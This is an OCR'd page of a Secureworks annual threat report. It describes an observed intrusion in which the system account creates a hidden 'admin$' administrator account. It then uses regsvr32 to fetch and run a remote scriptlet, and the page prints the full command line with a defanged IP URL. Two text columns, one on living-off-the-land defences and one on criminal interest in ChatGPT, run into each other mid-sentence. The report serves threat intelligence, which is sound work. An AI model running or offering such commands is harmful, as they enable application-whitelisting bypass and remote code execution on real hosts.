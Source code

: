 /1:hxxp://139\.5\.177\.19:8019/blue.txt scrobj.dll

This activity was initiated by the system account on the host 

"\[redacted]". The command created a new user admin$ with a specified 

password. It added this user to two administrator groups. It then used 

regsvr32 to execute a script from a remote server. Shortly after, another 

process event was identified where regsvr32\.exe allowed local execution 

of remotely hosted content, potentially indicating an attempt to bypass 

application whitelisting.

The command line used for this event was:

regsvr32 /s /u /n /i:hxxp://139\.5\.177\.19:8019/blue.txt scrobj.dll

This activity also originated from the system account on the 

same host.

State of the Threat: A Year in Review \| 8th Edition

41

Letter From Our VP

LOTL techniques can be used in multiple IT environments, 

Since mid\-February 2023, Secureworks CTU researchers observed 

including on\-premises, cloud, hybrid, Windows, Linux, and macOS 

an increase in posts on underground forums regarding the OpenAI 

environments. Defense strategies that rely only on signature\-based 

ChatGPT chatbot and the various ways it could be employed for 

monitoring and detection, without the benefit of threat intelligence 

criminal use. ChatGPT is a large language model (LLM) from the 

derived from real world observations of adversary behavior, can fail 

generative pre\-trained transformer (GPT) family. It is trained on a 

to identify the use of these techniques. Blanket ‘allow’ policies for 

massive dataset of text sources to generate human\-like responses to 

common, legitimate, IT administrative tools already in use in the 

natural language input. As a language model, ChatGPT can be used 

environment expand the attack surface and make life easier for 

in a wide range of applications, including customer service, chatbots, 

adversaries. Reviewing and understanding detection best practices, 

and personal assistants. It can also be leveraged for malicious 

